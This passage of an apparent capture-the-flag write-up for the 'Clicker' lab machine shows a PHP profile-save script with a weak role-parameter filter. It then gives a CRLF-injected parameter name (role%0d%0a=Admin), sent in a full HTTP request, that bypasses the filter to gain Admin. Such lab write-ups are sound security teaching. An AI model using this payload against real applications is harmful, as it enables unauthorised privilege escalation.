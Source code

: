

```
<?php
session_start();
include_once("db_utils.php");

if (isset($_SESSION['PLAYER']) && $_SESSION['PLAYER'] != "") {
	$args = [];
	foreach($_GET as $key=>$value) {
		if (strtolower($key) === 'role') {
			// prevent malicious users to modify role
			header('Location: /index.php?err=Malicious activity detected!');
			die;
		}
		$args[$key] = $value;
	}
	save_profile($_SESSION['PLAYER'], $_GET);
	// update session info
	$_SESSION['CLICKS'] = $_GET['clicks'];
	$_SESSION['LEVEL'] = $_GET['level'];
	header('Location: /index.php?msg=Game has been saved!');
	
}
?>
```
Here file the code see the `strtolower($key) === 'role')`
to modify role to user administrator the parameter is role , But something prevent to modify , if there is no obstacle you can modify role=Admin easily. But there is an obstacle we need bypass it.To knows role name you can check in `admin.php` file there used `Admin` Role 

```
if ($_SESSION["ROLE"] != "Admin") {
```

We try Crlf Injection to privilege escalation to Administrator


[Crlf Injection - Hacktricks](https://book.hacktricks.xyz/pentesting-web/crlf-0d-0a)

Back to play.php to crlf injection it click some clickers and save the game with intercept burpsuite

Add this parameter role%0d%0a=Admin like this request below

```
GET /save_game.php?clicks=5&level=0&role%0d%0a=Admin HTTP/1.1

Host: clicker.htb

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Connection: close

Referer: http://clicker.htb/play.php

Cookie: PHPSESSID=voblvqcsb65iskh39749pk4fn1

Upgrade-Insecure-Requests: 1

```
